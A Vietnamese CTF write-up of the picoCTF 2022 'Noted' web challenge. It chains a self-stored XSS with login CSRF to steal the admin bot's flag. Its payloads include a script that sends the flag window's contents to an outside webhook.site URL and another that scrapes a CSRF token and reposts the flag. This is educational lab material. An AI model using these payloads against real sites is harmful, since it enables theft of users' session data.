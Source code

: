 ```yaml
---
title: Noted - picoCTF2022
description: From picoCTF2022
author: to^
date: 2022-04-04 22:08:00 +0700
categories: [WecSec, CTF, picoCTF2022]
tags: [csrf, xss]     # TAG names should always be lowercase
img_path: /assets/img/
image:
 src: noted/pico.png
 alt: picoctf logo
 width: 1000
 height: 400
---
```


## _Sơ lược về challenge_
Trang gồm có hai chức năng `Login` và `Register`
![overview1](noted/overview1.png)
_overview1_

Tiếp đó ta thể tạo note và gửi link để report.
![overview2](noted/overview2.png)
_overview2_


## Phân tích
Sau khi thử thì mình nhận thấy có lỗi xss ở đây
[![test note](noted/overview2.png)](https://user-images.githubusercontent.com/77546253/161594213-8d0c1949-c9f1-410b-ae70-890f10590c89.mp4 "Link Title")
_Click to play video_

Suy ra bài này là một dạng Self Store XSS


Cũng tương tự như các bài xss khác, chức năng report sẽ làm con bot (đóng vai trò như admin) access đến link mà ta gửi.
![report](noted/report.png)
_report.js_
Bot sẽ tạo một tài khoản với tk, mk random và tạo một note với content chính là flag. Sau đó sẽ access tới url được report.

Trong `web.js` có thể thấy server dùng csrf token trong các route.
![csrf](noted/webjs.png)
_web.js_


## _Khai thác_
Bởi vì sau khi vừa tạo note thì phiên hoạt động của bot vẫn còn hiệu lực nên từ đó ta sẽ nghĩ cách để có thể lấy nội dung từ trang `/notes` của con bot (chứa flag) và gửi đến webhook hoặc có thể tạo một note mới với content là flag ở account của ta.

Bởi vì sau khi vừa tạo note thì session của bot vẫn còn lưu trên trình duyệt nên từ đó ta sẽ nghĩ cách để có thể lấy nội dung từ trang `/notes` của con bot (chứa flag) và gửi đến webbook hoặc có thể tạo một note mới với content là flag ở account của ta.


### Gửi đến webhook
Cách này không đòi hỏi phải extract csrf token
![flow1](noted/flow1.png)
_flow1_



Đầu tiên ta khởi tạo 1 account với `tk,mk: bla` mục đích là lưu xss script có vai trò gửi nội dung của `window` chứa flag tới webhook của ta.

XSS note sẽ có nội dung như sau:
```html
<script>
  if (window.location.search.includes('pwn'))
    window.location = 'https://webhook.site/<id>?' + window.open('', 'flag').document.body.textContent
</script>
```
Ở đây ta dùng `window.location.search.includes` là để tránh việc bị redirect liên tục tới webhook.

Tiếp theo ở exploit server ta tạo một `index.html` với layout
![exploit server](noted/exp_sv.png)
_flow2_

Csrf form sẽ là:
```html
    <form action='http://0.0.0.0:8080/login' method='POST' id='csrf' target='_blank'>
        <input type="text" name="username" value="bla">
        <input type="text" name="password" value="bla">
    </form>
```

Script để exploit sẽ là:
```html
    <script>
        window.open('http://0.0.0.0:8080/notes', 'flag');
        setTimeout(`csrf.submit()`, 1000);
        setTimeout(`window.location='http://0.0.0.0:8080/notes?pwn'`, 1500);
    </script>
```
Trong csrf form ta thêm thuộc tính `target` và gán giá trị bằng `_blank` để reponse trả về từ `action` sẽ mở ở tab mới nếu không các dòng javascript ở bên dưới sẽ không được thực thi.

Để hiểu rõ hơn về cách khai thác này ta sẽ đặt tất cả lại với nhau:
 - Đầu tiên gửi cho con bot link exploit server, bot sẽ truy cập tới exploit server hay cụ thể là `index.html`
 - Đoạn script ở `index.html` sẽ open new tab với tên là `flag` (sẽ không yêu cầu nhập username, password bởi vì phiên hoạt động của bot vẫn còn và cửa sổ này sẽ chứa note với content là flag)
 - Sau 1s thì submit csrf form lúc này bot sẽ login vào account ta vừa tạo và kết quả hiển thị ở `new blank tab`
 - Sau 1,5s thì chuyển hướng từ exploit page đến `http://0.0.0.0:8080/notes?pwn` lưu ý rằng ở đoạn code trước ta đã đăng nhập vào tài khoản `bla` nên bây giờ cũng sẽ chuyển hướng tới `/notes` của `bla`. `?pwn` dùng để trigger store xss và gửi nội dung cửa sổ `flag` đến webhook.
Có thể thấy lúc này ta không hề vi phạm `same origin policy` khi lấy `document.body.textContent` từ 
cửa sổ `flag` bởi vì chúng đều thuộc cùng domain, port và scheme.

Và kết quả:
![result](noted/result.png)
_result_

### Extract csrf token
Ở cách này thì form csrf vẫn như cách kia nhưng có sự thay đổi về xss note và script exploit

Script exploit:
```html
    <script>
        window.open('http://0.0.0.0:8080/notes', 'flag')
        setTimeout(`csrf.submit()`, 1000);
    </script>
```

XSS note:
```html
<script>
fetch("/new").then(r => r.text()).then(r => {
    //extract csrf token từ '/new'
    let csrf = r.match(/_csrf" value="([^"]*)/)[1];
    //lấy flag
    let flag = window.open('', 'flag').document.querySelector("body>div>p").innerHTML;
    //tạo note với content là flag ở account của ta
    fetch("/new", { method: "POST", body: JSON.stringify({ _csrf: csrf, title: "PWNED!!!", content: flag }), headers: { 'Content-Type': 'application/json' } });
});
</script>
```
Kết quả:
![result'](noted/result'.png)
_result_

## _Tham khảo_
<https://docs.abbasmj.com/ctf-writeups/picoctf-2022#noted>




